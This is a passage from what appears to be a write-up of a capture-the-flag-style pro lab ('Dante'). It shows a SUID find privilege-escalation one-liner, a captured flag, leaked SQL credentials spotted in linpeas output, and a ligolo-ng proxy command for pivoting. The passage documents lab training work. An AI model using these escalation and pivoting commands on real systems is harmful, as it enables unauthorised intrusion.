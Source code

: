 We can exploit this using this one liner to escalate privileges:

```
find / -exec /bin/bash -p \; -quit
```

<figure><img src="../../../.gitbook/assets/image (717).png" alt=""><figcaption></figcaption></figure>

Now that we have root, get the flag in the root directory

3rd flag: `DANTE{Too_much_Pr1v!!!!}`

***

## <mark style="color:red;">An open goal</mark>

Looking through the linpeas output, we see some SQL credentials here for `balthazar`

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

Because Prolabs has a lot of machines, I deduced there will be a lot of network pivoting and that is why I decided to used `ligolo-ng` to ease my life

On my machine I started `ligolo-ng` `proxy` with a connection to port `8888`

```
./linux-proxy -selfcert -laddr 0.0.0.0:8888
```

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>
